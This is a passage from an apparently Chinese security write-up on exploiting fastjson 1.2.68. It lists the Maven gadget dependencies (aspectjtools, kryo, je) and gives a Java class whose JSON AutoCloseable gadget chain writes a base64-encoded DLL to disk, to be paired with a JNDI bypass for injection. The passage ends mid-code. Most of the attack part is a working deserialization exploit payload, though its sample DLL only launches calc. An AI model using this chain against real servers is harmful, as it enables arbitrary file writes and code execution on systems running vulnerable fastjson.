 ![CC加载DLL](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/CC%E5%8A%A0%E8%BD%BDDLL.gif)



## 写文件搭配JNDI加载

fastjson1.2.68存在写文件，可以写dll然后搭配JNDI高版本绕过进行注入

pom

```xml
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjtools</artifactId>
    <version>1.9.5</version>
</dependency>
<dependency>
    <groupId>com.esotericsoftware</groupId>
    <artifactId>kryo</artifactId>
    <version>4.0.0</version>
</dependency>
<dependency>
    <groupId>com.sleepycat</groupId>
    <artifactId>je</artifactId>
    <version>5.0.73</version>
</dependency>
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.68</version>
</dependency>
```

注意修改position为dll解码后的字节数

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241204110613726.png)

```json
public class Fastjson_writeFile {
    public static void main(String[] args) throws Exception {
        String base64code = fileToBase64("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\src\\main\\java\\org\\exploit\\loadDLL\\calc_x64.dll");
        String json = "{\n" +
                "\"stream\": {\n" +
                "\"@type\": \"java.lang.AutoCloseable\",\n" +
                "\"@type\": \"org.eclipse.core.internal.localstore.SafeFileOutputStream\",\n" +
                "\"targetPath\": \"d:/calc_x64.dll\",\n" +
                "\"tempPath\": \"e:/test.txt\"\n" +
                "},\n" +
                "\"writer\": {\n" +
                "\"@type\": \"java.lang.AutoCloseable\",\n" +
                "\"@type\": \"com.esotericsoftware.kryo.io.Output\",\n" +
                "\"buffer\": \""+base64code+"\",\n" +//base64文件字符串
                "\"outputStream\": {\n" +
                "\"$ref\": \"$.stream\"\n" +
                "},\n" +
                "\"position\": 50176\n" +
                "},\n" +
                "\"close\": {\n" +
                "\"@type\": \"java.lang.AutoCloseable\",\n" +
                "\"@type\": \"com.sleepycat.bind.serial.SerialOutput\",\n" +
                "\"out\": {\n" +
                "\"$ref\": \"$.writer\"\n" +
                "}\n" +
                "}\n" +
                "}";
```